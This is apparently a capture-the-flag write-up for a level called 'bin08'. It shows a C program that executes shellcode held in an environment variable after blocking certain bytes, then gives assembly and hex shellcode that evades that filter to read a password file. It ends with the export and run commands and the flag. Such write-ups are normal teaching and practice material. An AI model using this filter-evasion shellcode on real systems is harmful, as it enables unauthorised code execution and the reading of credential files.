 ## exploit


```C
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char ** argv, char ** environ)
{
	int  i      = 0;
	int  j      = 0;
	char *code  = NULL;
	char bits[] = {0x6a, 0x2e, 0xcd, 0xc0, 0xfb, 0xb0, 0x68, 0x6e, 0x00};

	if (argc != 2)
	{
		puts("[-] You must specify a variable name");
		return 1;
	}

	if ((code = getenv(argv[1])) == NULL)
	{
		puts("[-] The requested variable does not exist");
		return 1;
	}

	for (i = 0; environ[i]; ++i)
	{
		if (strncmp(environ[i], argv[1], strlen(argv[1])) != 0)
		{
			memset(environ[i], 0, strlen(environ[i]));
		}
	}

	for (i = 0; code[i]; ++i)
	{
		for (j = 0; bits[j]; ++j)
		{
			if (code[i] == bits[j])
			{
				puts("[-] Your shellcode contains bad bits");
				return 1;
			}
		}
	}

	if (code != NULL)
	{
		(*(void (*)())code)();
	}

	return 0;
}
``` 

This program takes an env variable as argument and executes the content.

Before execute your code the program checks if it does not contains some hex bytes, and avoid you to use:

* syscall(bypass using sysenter)
* `.` and `n` chars
* xorl on eax
* some assignments

Here my shellcode:

```assembly
.text
	.global _start
	_start:
		nop
		jmp string
		nop
	proc:
		nop
		xorl %ebx,%ebx
		xorl %ecx,%ecx
		xorl %edx,%edx
		xorl %esi,%esi
		xorl %edi,%edi
		movl    %ebx,%eax
		popl %ebx
		push %eax
		movb %dl,8(%ebx)
		movb 3(%ebx),%dl
		inc %edx
		movb %dl,3(%ebx)
		xor %edx,%edx	
		push   %eax
		mov    %ebx,%ecx
		addl   $9,%ecx
		movb   %dl,9(%ecx)
		movb (%ecx),%dl
		inc %edx
		movb %dl,(%ecx)
		xorl %edx,%edx
		push   %eax
		push   %ecx
		push   %ebx
		mov    %esp,%ecx
		movb    $0xa,%dl
		movl	%edx,%eax
		xorl %edx,%edx
		incl	%eax
		pushl %ebp
		movl %esp,%ebp
		sysenter
		nop
		#int $0x80	
exit:	#xorl %eax,%eax
		nop	
		xorl %ebx,%ebx
		movl %ebx,%eax
		#movb $0x1,%al
		incl %eax
		#
		#
		#
		pushl %ecx
		pushl %ecx
		pushl %edx
		pushl %ebp
		movl %esp,%ebp
		nop
		sysenter
string:
             call proc
             p: .ascii "/bim/catx-passwordxxxx"

```

So here we are, takes the hex and put in some env VAR.
```
"\x90\xeb\x4d\x90\x90\x31\xdb\x31\xc9\x31\xd2\x31\xf6\x31\xff\x89\xd8\x5b\x50\x88\x53\x08\x8a\x53\x03\x42\x88\x53\x03\x31\xd2\x50\x89\xd9\x83\xc1\x09\x88\x51\x09\x8a\x11\x42\x88\x11\x31\xd2\x50\x51\x53\x89\xe1\xb2\x0a\x89\xd0\x31\xd2\x40\x55\x89\xe5\x0f\x34\x90\x90\x31\xdb\x89\xd8\x40\x51\x51\x52\x55\x89\xe5\x90\x0f\x34\xe8\xaf\xff\xff\xff\x2f\x62\x69\x6d\x2f\x63\x61\x74\x78\x2d\x70\x61\x73\x73\x77\x6f\x72\x64\x78\x78\x78\x78"
```

```bash
$ export VA=$(python -c 'print "\x90\xeb\x4d\x90\x90\x31\xdb\x31\xc9\x31\xd2\x31\xf6\x31\xff\x89\xd8\x5b\x50\x88\x53\x08\x8a\x53\x03\x42\x88\x53\x03\x31\xd2\x50\x89\xd9\x83\xc1\x09\x88\x51\x09\x8a\x11\x42\x88\x11\x31\xd2\x50\x51\x53\x89\xe1\xb2\x0a\x89\xd0\x31\xd2\x40\x55\x89\xe5\x0f\x34\x90\x90\x31\xdb\x89\xd8\x40\x51\x51\x52\x55\x89\xe5\x90\x0f\x34\xe8\xaf\xff\xff\xff\x2f\x62\x69\x6d\x2f\x63\x61\x74\x78\x2d\x70\x61\x73\x73\x77\x6f\x72\x64\x78\x78\x78\x78"')
```
```bash
$ ./bin08 VA
```

##### flag: "R3st0reYourPrivilege4Access"
